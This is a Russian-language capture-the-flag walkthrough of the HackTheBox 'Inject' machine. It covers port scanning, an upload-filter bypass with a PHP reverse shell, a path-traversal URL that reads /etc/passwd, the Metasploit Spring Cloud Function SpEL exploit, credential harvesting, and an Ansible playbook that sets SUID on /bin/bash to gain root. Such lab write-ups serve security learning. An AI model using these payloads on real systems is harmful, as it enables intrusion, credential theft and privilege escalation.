


# Inject
:white_check_mark:  [**Spring_cloud_function_spel_injection**](#Spring_cloud_function_spel_injection)

:white_check_mark:  [**Ansible yml file (privesc)**](#Ansible_yml_file)

___

## Port scan
Сканируем ip командой:
```
nmap -sC -sV inject.htb
```

```
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 caf10c515a596277f0a80c5c7c8ddaf8 (RSA)
|   256 d51c81c97b076b1cc1b429254b52219f (ECDSA)
|_  256 db1d8ceb9472b0d3ed44b96c93a7f91d (ED25519)
8080/tcp open  nagios-nsca Nagios NSCA
|_http-title: Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Главная страница сайта:




На данной странице мы можем найти вкладку для загрузки файлов. Перейдем по ней.


Попробуем прокинуть файл php-revershe-shell.php. Но мы получим ошибку и сообщение, что загружаются только картинки. 


Переименуем файл в php-revershe-shell.php.jpg и снова загрузим файл. Файл успешно загрузился


Но у нас не получится открыть данный файл.


Вместо этого мы можем обнаружить LFI. Мы сможем прочитать /etc/passwd:

```
http://inject.htb:8080/show_image?img=../../../../../../etc/passwd
```




Также мы можем обнаружить, что мы можем не только читать файлы, но и просматривать директории.


<a name="Spring_cloud_function_spel_injection"></a>

## Spring_cloud_function_spel_injection

Просмотрев файлы, мы можем обнаружить, что сайт использует Spring 2.6.5.


Воспользуемся metasploit. В поиске прописываем spring и выбираем эксплоит **spring_cloud_function_spel_injection**.


Выставляем нужные параметры и запускаем эксплоит.


В директории **/home/frank/.m2** мы можем обнаружить файл setting.xml.


В данном файле мы можем найти данные пользователя


Логинимся под пользователя phil.


<a name="Ansible_yml_file"></a>

## Ansible yml file(privesc)

Закинем на машину linpeas и запустим скрипт. В выводе скрипта мы можем обнаружить ansible файл playbook_1.yml.


На [сайте](https://rioasmara.com/2022/03/21/ansible-playbook-weaponization/) и [сайте](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/ansible-playbook-privilege-escalation/) мы можем найти способ эксплуатации ansible.

Код эксплоита:

```
- hosts: localhost
        tasks:
          - name: Evil
            ansible.builtin.shell: |
              chmod u+s /bin/bash
            become: true
```


Закидываем файл в директорию:

```
mv playbook2.yml /opt/automation/tasks/
```

Через некоторое время прописываем команду **bash -p** и получаем root.


